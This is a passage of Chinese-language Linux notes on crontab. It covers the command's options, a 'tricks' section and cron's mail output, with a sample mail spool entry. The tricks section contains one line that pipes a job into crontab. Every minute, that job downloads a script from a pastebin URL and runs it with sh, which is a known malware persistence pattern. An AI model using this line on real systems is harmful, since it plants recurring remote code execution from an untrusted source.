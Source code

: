 ### 0x04a Optional args
 
- `-u`
	指定需要修改 crontab file 的用户名，如果没有指定默认使用 `${USER}`
- `-l`
	输出(当前用户的) crontab file
- `-r`
	删除(当前用户的) crontab file
- `-e`
	修改/新增(当前用户的) crontab file，默认会使用 `${VISUAL}` | `${EDITOR}` 作为编辑器
- `-i`
	删除 crontab file 前 prompt
- `-c` | `-n`
	集群相关的参数

### 0x04b Tricks

`crontab` 可以和 stdin 巧妙的结合

```
echo "* * * * * (crul -fsSL https://pastebin.com/raw/e8XzcU2Q || wget -q -O- https://pastebin.com/raw/e8XzcU2Q) | sh" | crontab -
```

## 0x05 Mail

> [!important]
> 如果需要使用邮件的功能，需要安装 postfix

cron 可以通过 `MAILTO` 和 `MAILFROM` 来实现邮件推送

假设有如下任务

```
* * * * * /usr/bin/echo "hello world" && fzf
```

那么 cron 会往 `/var/spool/mail/${USER}` 中写入类似如下内容，发件人和发件人都为 `${USER}@${HOSTNAME}`

```
From root@vbox.localdomain  Wed Oct 30 16:54:01 2024
Return-Path: <root@vbox.localdomain>
X-Original-To: root
Delivered-To: root@vbox.localdomain
Received: by vbox.localdomain (Postfix, from userid 0)
        id DA074600CFA7; Wed, 30 Oct 2024 16:54:01 +0800 (CST)
From: "(Cron Daemon)" <root@vbox.localdomain>
To: root@vbox.localdomain
Subject: Cron <root@vbox> /usr/bin/echo "hello world" && fzf 
Content-Type: text/plain; charset=UTF-8
Auto-Submitted: auto-generated
Precedence: bulk
X-Cron-Env: <XDG_SESSION_ID=22>
X-Cron-Env: <XDG_RUNTIME_DIR=/run/user/0>
X-Cron-Env: <LANG=en_US.UTF-8>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <PATH=/usr/bin:/bin>
X-Cron-Env: <LOGNAME=root>
X-Cron-Env: <USER=root>
Message-Id: <20241030085401.DA074600CFA7@vbox.localdomain>
Date: Wed, 30 Oct 2024 16:54:01 +0800 (CST)

hello world
/bin/sh: fzf: command not found
```
